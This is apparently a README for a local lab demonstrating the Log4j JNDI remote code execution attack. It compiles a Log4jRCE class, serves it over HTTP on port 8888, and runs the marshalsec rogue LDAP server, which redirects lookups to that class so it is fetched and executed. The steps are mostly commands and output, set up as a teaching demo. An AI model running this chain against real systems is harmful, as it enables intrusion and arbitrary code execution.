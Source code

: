 ## 1-remote-codes-repository

This is to emulate the remote code repository which hosts the attacker's malicious code i.e. Log4jRCE.
This code is later serialized by the vulnerable application via JNDI LDAP look up.

1. Compile Log4jRCE.java
<pre>
$ javac Log4jRCE.java

$ ls
-rw-r--r-- 1 rafsyam 197121 1.7K Feb 22 03:54 Log4jRCE.class
</pre>

2. Run a simple http server to host the code at port 8888
<pre>
$ ./run-server.sh
Serving HTTP on :: port 8888 (http://[::]:8888/) ...
</pre>

3. For demo purposes, make changes to the file Log4jRCE.java & recompile.
Do not have to re-start the server for this.

## 2-rogue-ldap

This is to emulate the attacker's LDAP server.

1. Compile & package into jar

<pre>
$ mvn clean package -DskipTests
[INFO] Scanning for projects...
[INFO]
[INFO] ----------------< org.eenterphace.mbechler:marshalsec >-----------------
[INFO] Building marshalsec 0.0.3-SNAPSHOT
[INFO] --------------------------------[ jar ]---------------------------------
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/
plugins/maven-surefire-plugin/2.19.1/maven-surefire-plugin-2.19.1.pom
...
...\target\marshalsec-0.0.3-SNAPSHOT-all.jar
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  06:02 min
[INFO] Finished at: 2022-02-22T00:33:48+08:00
[INFO] ------------------------------------------------------------------------
</pre>

2. Run the rogue LDAP server. 
Any request to this LDAP will be forwarded to the attacker codebase which has malicious code (i.e. Log4jRCE).

<pre>
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
Listening on 0.0.0.0:1389
Send LDAP reference result for Log4jRCE redirecting to http://127.0.0.1:8888/Log4jRCE.class
Send LDAP reference result for Log4jRCE redirecting to http://127.0.0.1:8888/Log4jRCE.class
</pre>

3. Run the vulnerable App that uses Log4J to log error.
